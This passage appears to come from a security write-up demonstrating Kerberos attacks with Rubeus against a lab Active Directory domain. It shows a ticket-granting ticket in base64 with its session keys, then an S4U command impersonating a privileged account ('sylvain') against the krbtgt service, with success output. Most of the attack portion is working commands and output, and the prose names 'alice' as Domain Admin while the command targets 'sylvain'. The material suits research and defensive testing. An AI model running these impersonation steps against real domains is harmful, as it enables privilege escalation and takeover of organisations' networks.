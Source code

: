 ```text
      aVBX3nE/fHF0Tk0PfMWoumYVTUzS7KdR6BuS0POPwRIPWMsiD/VSPtr6/eNABXhyzb44KtC9IUbSMfVj
      +PU4ot6+MzFL6yN72KianUKXrdMUD/OL8c1DQJ90uR1+NXwbcczipnKz0cG+Wihjz1Tc6HhXLbxk9UKC
      PBgDexhsorYuwnPB3yh6tIedMMnQci9Z3+zLJOuqHdkmHDS7H2YJh0sINP+8jkZJTPFM3qwzAmB02FAk
      d8H/VUMGA/T8PZG4L/99FDH+Ma4LsPJEqRz1jbZ/91mgMrrqB7cALaryZNx91aterncKpR3KDmuKuc0S
      ywFWyEx5W9Cye5v6EieY7VCC4XA/AfFW3Eb+tYVKm6mlAohhBSJVBonkPJ/G6zXTTx9iQAchqPo/TnTo
      4Vle3oj+LyqrAJurP3qH5wRKIwxoFrCoJLA1z9NBSo/5eDFAXEA/ivc5uuZ/R9E+Md3lDNuCZ2wcZEKH
      tZFZPpzDeE/wIoqFeQC5dPUiZ/HXqGUbWxQ4B5M9JxegHBKrw3ER2K0QnHskQcAnUTU2Gg5QFKRqahyL
      zChHpTVQ0yiDsXX5YcbQEesXmkVcLpqC4uOdXxJZ1RwyV+66dN68A2HuomZsn13oXtgaGBHPXS+GyzJm
      P7hpeM0kUzGgtCuAgTRwGQI7JdeCvlOoaHQfMpKY8Dk8GZslyDohqyPk4DURnoCAEEhgIJnidfRVd06k
      9lofIGVViXVivahj/eGGo9SE+AAzKe2RJK75gKOXQ50dFl89ImsKcJPDNPdi2B3x+ecEoiB48VsjSJZR
      j5pVFgf9JEOPFQLMH/H6rPNBbXiAvX1mX6ZnXlMZTG8X5dC3/YEVy2AfmRBeDVxZIM5ZhTGrlk3fJlNz
      e7EXzUaldrOCvgNb+SP8cD7AfJTscVhT5bSxqml+aNnKzBbGM1CwXa+aK+USSvOF0EMWqDFtPyXFYq43
      6f0QyBVcd5/ZmUL3PA94218nUt6doelZJNpCEzSI0irX7kU7S4K8y99+zazXYYX/lNK1Y1DdYVNc2UVN
      QfiwAOpkOwl9ndGnyp6/7rrU18Jj7UoPhdFophLpBloeOkCq90QlDSk4vCocJ/FlkRbrhr2COo4S8yda
      pyiR20dJUkha5X0O/cOkg+qwXWlChmKhS/314NGFDRET4dO3RSfzRL+BPTFIw5uy8GQ3vMxJUM/KYCb5
      WC1jOhuQeAUbxAUPYomdo4HQMIHNoAMCAQCigcUEgcJ9gb8wgbyggbkwgbYwgbOgGzAZoAMCARehEgQQ
      mWV/ylf0p1ebFQGQ7B+/lqENGwtDT1NNT1MuQ09SUKIXMBWgAwIBAaEOMAwbClNBLVRFU1QtMDGjBwMF
      AEDhAAClERgPMjAyMjAxMDcxNDI2MzBaphEYDzIwMjIwMTA4MDAyNjMwWqcRGA8yMDIyMDExNDE0MjYz
      MFqoDRsLQ09TTU9TLkNPUlCpGzAZoAMCAQKhEjAQGwZrcmJ0Z3QbBkNPU01PUw==

[*] Ticket written to sa_tgt


  ServiceName              :  krbtgt/COSMOS
  ServiceRealm             :  COSMOS.CORP
  UserName                 :  SA-TEST-01
  UserRealm                :  COSMOS.CORP
  StartTime                :  1/7/2022 3:26:30 PM
  EndTime                  :  1/8/2022 1:26:30 AM
  RenewTill                :  1/14/2022 3:26:30 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  mWV/ylf0p1ebFQGQ7B+/lg==
  ASREP (key)              :  0CB6948805F797BF2A82807973B89537
```

## s4u impersonate sylvain on krbtgt service

Then we will perform a `s4u` attack by asking to impersonate a privileged account (here alice is *Domain Admin*).

```
c:\work\dev\Rubeus\Rubeus\bin\Debug>Rubeus.exe s4u /msdsspn:krbtgt/COSMOS /domain:COSMOS /dc=127.0.0.1 /impersonateuser:sylvain /ticket:sa_tgt /outfile:sylvain

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: S4U

[*] Action: S4U

[*] Using domain controller: 127.0.0.1
[*] Building S4U2self request for: 'SA-TEST-01@COSMOS.CORP'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'sylvain' to 'SA-TEST-01@COSMOS.CORP'
```